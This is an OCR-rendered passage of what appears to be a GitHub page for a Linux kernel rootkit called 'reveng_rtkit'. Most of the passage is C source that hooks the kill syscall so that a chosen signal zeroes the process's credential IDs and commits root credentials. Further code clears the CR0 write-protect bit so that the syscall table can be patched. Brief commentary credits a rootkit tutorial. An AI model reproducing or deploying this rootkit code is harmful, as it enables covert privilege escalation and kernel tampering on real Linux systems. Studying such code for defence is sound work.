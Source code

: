 ```c
                    root->suid.val = root->sgid.val = 0;
                    root->fsuid.val = root->fsgid.val = 0;

                    // Setting the updated value to cred structure
                    commit_creds(root);
                  }

                  static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                  {
                    int sig = (int) pt_regs->si;
                    
                    switch (sig)
                    {
                      case GET_ROOT:
                        printk(KERN_INFO "[*] reveng_rtkit: From rootkit with love :)\t-> Offering root shell!!");
                        /*
                          In someway system() function alike kernel function present in linux kernel programming
                          is required. in order to execute bash/sh shell then grant root shell as fish shell (in my
                          case) was alloted a root shell, but bash/sh shell did the job.
                        */
                        set_root();
                        break;
                      default:
                        return orig_kill(pt_regs);
                    }
                    return 0;
                  }


                  static inline void write_cr0_forced(unsigned long val)
                  {
                    unsigned long __force_order;

                    asm volatile("mov %0, %%cr0" : "+r"(val), "+m"(__force_order));
                  }

                  static inline void protect_memory(void)
                  {
                    printk(KERN_INFO "[*] reveng_rtkit: (Memory protected): Regainig normal memory protection\n");
                    write_cr0_forced(cr0);	// Setting WP flag to 1 => read-only
                  }

                  static inline void unprotect_memory(void)
                  {
                    pr_info("[*] reveng_rtkit: (Memory unprotected): Ready for editing Syscall Table");
                    write_cr0_forced(cr0 & ~0x00010000);	// Setting WP flag to 0 => writable
                  }
```
   Here, the type of this function is `asmlinkage int`, actually it doesn't matter in this context, but it might in others.\
                Syscalls are of type `long`, thus, when a user space program such as glibc depends on its return value, it expects a `long int`, if you feed it with `int`, things will go very wrong.\
                Credit: [jm33.me/](https://jm33.me/linux-rootkit-for-fun-and-profit-0x02-lkm-hide-filesprocs.html)
```c
                // filename: Test_rtkit_kill.c

                #include <linux/init.h>		/* Needed for the macros */
                #include <linux/module.h>	/* Needed by all modules */
```